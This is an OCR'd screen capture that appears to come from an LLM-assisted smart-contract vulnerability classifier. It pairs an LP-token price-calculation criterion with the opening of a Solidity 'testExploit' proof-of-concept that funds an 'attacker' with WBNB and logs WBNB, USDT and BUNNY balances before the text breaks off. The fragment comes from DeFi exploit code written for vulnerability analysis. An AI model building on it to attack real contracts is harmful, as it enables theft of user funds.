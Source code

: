 │ {"1": "Yes"}                                                                                                                                                                                                                                          │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────── Single Choice Scenario ────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price based on the market reserves/AMMprice/exchangeRate OR the custom token balanceOf/totalSupply/amount/liquidity calculation                                                │
│ Code:                                                                                                                                                                                                                                                 │
│     function testExploit() public {                                                                                                                                                                                                                   │
│         payable(WBNB).call{value: 1e18}("");                                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial WBNB balance of attacker:",                                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial USDT balance of attacker:",                                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial BUNNY balance of attacker:",                                                                                                                                                                                                     │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
